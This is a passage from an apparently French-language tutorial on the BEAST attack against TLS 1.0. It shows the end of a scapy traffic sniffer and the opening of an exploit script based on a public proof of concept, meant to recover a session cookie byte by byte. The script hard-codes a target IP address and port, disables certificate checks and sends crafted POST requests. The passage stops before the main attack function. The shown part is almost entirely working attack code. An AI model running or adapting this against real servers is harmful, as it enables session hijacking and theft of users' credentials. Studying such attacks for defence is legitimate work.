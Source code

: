 ```python
    print("[*] Démarrage de la capture pour BEAST...")
    sniff(
        filter=f"tcp port {TARGET_PORT}",
        prn=packet_callback,
        store=0
    )

if __name__ == "__main__":
    start_sniffing()
```

### 5.3 Script d'exploitation

Voici un script d'exploitation BEAST complet basé sur le PoC mpgn/BEAST-PoC disponible sur GitHub. Ce script implémente l'attaque par texte clair choisi pour récupérer un cookie de session octet par octet:

```python
#!/usr/bin/env python3
# coding: utf-8

import socket
import ssl
import time
import binascii
import sys

# Configuration
TARGET_HOST = "37.187.103.134"
TARGET_PORT = 8443
BLOCK_SIZE = 16  # 16 octets pour AES-128
MAX_ATTEMPTS = 256  # Nombre maximal d'essais (tous les octets possibles)
COOKIE_PREFIX = "token="  # Préfixe du cookie à récupérer

def create_tls10_connection():
    """Crée une connexion TLS 1.0 vers la cible."""
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    context = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE

    # Se connecte au serveur cible
    sock.connect((TARGET_HOST, TARGET_PORT))
    tls_sock = context.wrap_socket(sock)

    return tls_sock

def send_request(tls_sock, payload):
    """Envoie une requête HTTP POST avec le payload spécifié."""
    request = (
        f"POST / HTTP/1.1\r\n"
        f"Host: {TARGET_HOST}:{TARGET_PORT}\r\n"
        f"Content-Type: application/x-www-form-urlencoded\r\n"
        f"Content-Length: {len(payload)}\r\n"
        f"\r\n"
        f"{payload}"
    )

    tls_sock.send(request.encode())
    response = tls_sock.recv(4096)

    return response

def beast_attack():
```